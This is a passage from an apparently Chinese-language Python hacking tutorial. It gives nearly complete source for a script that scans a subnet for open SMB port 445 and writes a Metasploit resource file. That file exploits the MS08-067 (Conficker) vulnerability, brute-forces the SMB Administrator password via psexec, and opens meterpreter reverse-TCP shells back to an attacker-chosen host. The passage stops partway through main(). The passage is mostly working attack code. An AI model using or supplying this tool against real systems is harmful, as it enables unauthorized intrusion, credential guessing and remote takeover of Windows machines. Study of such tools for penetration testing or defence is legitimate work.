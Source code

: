 尝试把所有的功能放在一起，我们的脚本现在已经具备扫描目标，利用`ms08-067_netapi`漏洞，暴力破解 SMB 用户名密码并远程执行程序的能力了。最后，我们增加一些选项给脚本的`main()`函数把以前写的函数整合包装在一起调用。完整的代码如下。

```
# coding=UTF-8

import os
import optparse
import sys
import nmap

def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
    configFile.write('setg DisablePayloadHandler 1\n')
def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')
    configFile.write('set RHOST ' + str(tgtHost) + '\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open(passwdFile, 'r')
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n')

def main():
    configFile = open('meta.rc', 'w')
    parser = optparse.OptionParser('[-] Usage%prog -H &lt;RHOST[s]&gt; -l &lt;LHOST&gt; [-p &lt;LPORT&gt; -F &lt;Password File&gt;]')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify the target address[es]')
    parser.add_option('-p', dest='lport', type='string', help='specify the listen port')
    parser.add_option('-l', dest='lhost', type='string', help='specify the listen address')
    parser.add_option('-F', dest='passwdFile', type='string', help='password file for SMB brute force attempt')
    (options, args) = parser.parse_args()
    if (options.tgtHost == None) | (options.lhost == None):
        print parser.usage
        exit(0)
    lhost = options.lhost
```